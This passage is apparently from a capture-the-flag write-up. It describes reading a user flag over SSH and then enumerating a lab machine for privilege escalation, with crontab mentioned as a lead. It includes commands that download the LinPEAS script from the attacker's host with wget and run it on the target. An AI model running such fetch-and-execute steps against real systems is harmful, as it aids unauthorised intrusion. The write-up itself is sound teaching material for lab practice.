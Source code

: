 We finally escape from docker and gain access on actual server via SSH by leveraging leaked credential. Let's find user flag first, it usually located at `home/username/flag.txt`.

```
cd /home/enzo
ls
cat user.txt
```

<figure><img src=".gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

We successfully gain access to user-level. Let's start enumeration to privilege escalation to root. We can utilized script like **LinPEAS.sh.** We can download this script from our machine into this machine and execute it using these commands.

```
wget http://10.10.16.103/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

<figure><img src=".gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

Here the indicator of PE vector, we should look out this on the output.&#x20;

After A LOT of try and error, like runc and ctr abuse, possible binary file with root suid or sudo. Everything doesn't work out, so instead of working on exploit. I'll try to look up for information disclosure and found this information.

<figure><img src=".gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
What is crontab?

Crontab is a command-line utility for the Unix task scheduler.
{% endhint %}

<figure><img src=".gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>
